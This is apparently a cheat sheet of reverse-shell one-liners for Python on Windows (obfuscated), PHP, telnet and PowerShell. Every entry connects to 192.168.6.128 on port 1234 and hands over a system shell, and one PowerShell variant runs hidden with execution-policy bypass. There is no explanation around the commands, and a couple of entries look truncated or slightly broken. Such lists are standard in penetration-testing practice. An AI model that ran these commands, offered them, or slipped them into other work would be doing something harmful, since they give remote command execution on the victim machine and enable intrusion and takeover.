 PYTHON REVERSE SHELL WINDOWS
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('192.168.6.128', 1234)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"

PHP REVERSE SHELL
php -r '$sock=fsockopen("192.168.6.128",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

PHP REVERSE SHELL
php -r '$s=fsockopen("192.168.6.128",1234);shell_exec("/bin/sh -i <&3 >&3 2>&3");'

PHP REVERSE SHELL
php -r '$s=fsockopen("192.168.6.128",1234);`/bin/sh -i <&3 >&3 2>&3`;'

PHP REVERSE SHELL
php -r '$s=fsockopen("192.168.6.128",1234);system("/bin/sh -i <&3 >&3 2>&3");'

PHP REVERSE SHELL
php -r '$s=fsockopen("192.168.6.128",1234);popen("/bin/sh -i <&3 >&3 2>&3", "r");'

TELNET REVERSE SHELL
rm -f /tmp/p; mknod /tmp/p p && telnet 192.168.6.128 1234 0/tmp/p

TELNET REVERSE SHELL
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet 192.168.6.128 1234 > /tmp/f

POWERSHELL REVERSE SHELL
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.6.128",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

POWERSHELL REVERSE SHELL
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.6.128',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
